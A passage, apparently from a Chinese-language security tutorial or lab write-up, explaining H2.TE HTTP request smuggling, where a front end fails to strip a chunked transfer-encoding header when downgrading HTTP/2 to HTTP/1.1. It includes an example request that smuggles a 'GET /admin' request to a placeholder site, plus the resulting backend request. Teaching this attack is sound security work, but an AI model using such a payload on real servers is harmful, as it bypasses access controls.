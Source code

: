[![](assets/1705287960-6aa24d9f5290fa30ac5b768a50eaa2ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103523-11f71292-b02a-1.png)  
Step 5：随后完成解题

[![](assets/1705287960-f3b633932eee53bc43aece859105546e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103533-18335102-b02a-1.png)

### H2.TE vulnerabilities

HTTP/2与Chunked transfer encoding不兼容，规范是建议在尝试插入的任何"transfer-encoding: chunked"头都应该被剥离或完全阻塞请求，如果前端服务器未能做到这一点并且随后降级了对支持分块编码的HTTP/1后端的请求，也将会导致请求走私攻击  
如果我们以HTTP/2的格式发送如下请求：

```plain
:method POST
:path   /example
:authority  vulnerable-website.com
content-type    application/x-www-form-urlencoded
transfer-encoding   chunked
0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

那么此时后端请求数据报文将如下：

```plain
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
